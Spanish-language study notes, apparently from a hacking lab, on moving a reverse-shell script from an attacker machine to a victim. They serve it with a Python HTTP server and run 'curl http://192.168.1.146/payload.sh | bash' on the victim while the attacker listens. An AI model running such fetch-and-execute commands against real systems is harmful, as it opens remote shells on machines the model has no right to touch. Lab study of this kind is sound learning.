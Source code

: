 - Vamos a crear una pagina web usando Python para traspasarnos archivos de la maquina victima  a la atacante.


- Vamos a crear un `payload.sh` con `nano`.
- Vamos a escribir una reverse shell
![[Pasted image 20241211185224.png]]
==Se usa .sh (Script de shell) porque son ampliamente compatibles con sistemas Unix y Linux==
- Guardamos.
- Ahora, como podemos compartir este archivo con la maquina victima?
- Usamos el comando:
```
python3 -m http.server 80
```
- Esto levanta una pagina por el puerto 80 que nos permitirá ingresar y descargar lo que subamos a esta pagina.
![[Pasted image 20241211185936.png]]
- Ingresamos la IP en el buscador de internet de la maquina victima y ya estaríamos viendo el archivo que creamos.
![[Pasted image 20241211194226.png]]
- Lo podemos descargar

- También tenemos otra forma de como ejecutarlo usando la terminal de la maquina victima, y es con el siguiente comando:
```
curl http://192.168.1.146/payload.sh | bash
```
- Ponemos la IP de la maquina atacante seguido del nombre del archivo.
- Nos mantenemos en escucha desde la maquina atacante y ejecutamos el comando desde la maquina victima.